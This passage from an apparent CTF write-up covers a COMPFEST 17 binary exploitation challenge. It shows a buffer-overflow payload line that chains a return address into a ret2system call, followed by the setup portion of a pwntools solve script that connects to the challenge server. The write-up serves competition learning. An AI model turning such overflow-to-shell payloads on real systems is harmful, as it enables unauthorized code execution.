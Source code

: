 ```python
sa("You do: ", b"A"*0x1f + p64(target) + p64(elf.sym["start"] + 72) + ret2system())
```

![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/Solve.png)


### Solve Script

```python
#!/usr/bin/env python3
import time
from subprocess import Popen
from pwncli import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "ctf.compfest.id", 7004


gdbscript = '''
init-pwndbg
b *encounter+112
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, aslr=False)
    else:
        return process([exe] + argv, aslr=False)
```